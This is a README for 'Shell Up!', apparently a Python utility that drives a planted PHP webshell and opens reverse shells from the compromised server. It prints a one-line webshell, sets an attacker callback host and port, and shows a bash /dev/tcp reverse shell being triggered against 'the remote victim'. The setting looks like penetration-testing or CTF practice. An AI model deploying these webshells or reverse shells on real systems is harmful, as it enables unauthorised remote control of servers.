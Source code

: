 # Shell Up!
A much more lightweight way to connect to a webshell without having to use Burp Suite.
I wrote this not out of necessity, but because I was always considering doing it one day
and given the current COVID-19 climate I finally said screw it and wrote this. In the event
that I obtain code execution on a server and am able to write a quick oneliner webshell that
looks something like this:

`<?php system($_GET['cmd']); ?>`

You can run this script and issue commands as needed. Typically all that is necessary is a
callback via a reverse shell, so this script takes care of all of the overhead necessary.

To use, point this script at the affected code:

`shellup.py http://example.com/pwned.php`

This will connect to the endpoint and run an immediate check to determine code execution,
assuming your invoke word is "cmd". If it isn't, you can modify those settings in the REPL:

`shellset invokeword c`

Don't forget to set your LHOST and LPORT properties for reverse shells:

`shellset lhost 10.10.14.2`
`shellset lport 9001`

Something not working right? Run it through a proxy like burpsuite or mitmproxy andfind out
what's going on:

`shellset proxy http://localhost:8080`
`whoami`

Or, you could just set these flags up beforehand at the command line:

`shellup.py http://example.com/pwned.php -lh 10.10.14.2 -lp 9001 -i agr0 -p http://localhost:8080`

Once you have your settings configured properly, the "shellup" function allows you to start up a
reverse shell in many different ways. All you need to do is type something like:

`shellup bash`

And it will connect back to you using the /dev/tcp/ method that comes with the bash shell.
Several reverse callback methods have been preloaded into this script, but when all else fails
you can simply issue arbitrary commands via the included REPL. Just type anything and it sends
it to the remote victim, all properly URL encoded!

Hack The Planet!